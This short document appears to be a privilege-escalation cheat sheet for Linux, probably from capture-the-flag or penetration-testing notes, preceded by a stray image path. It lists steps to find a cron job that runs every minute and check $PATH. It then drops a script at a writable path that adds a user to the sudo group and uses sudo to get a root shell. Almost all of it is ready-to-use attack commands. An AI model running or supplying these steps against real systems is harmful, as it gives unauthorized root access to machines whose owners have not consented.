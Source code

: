 1. Find the cron that runs every minute:
	crontab -l
	ls /etc/cron.*
2. Find a way to exploit the system - echo $PATH
3. Elevate privileges:
	echo '#!/bin/bash' > /[path with write premissions]/[job name]
	echo 'adduser [user] sudo' >> /[path with write premissions]/[job name]
	chmod +x /[path with write premissions]/[job name]
	su [user]
	sudo -l
	sudo -i
	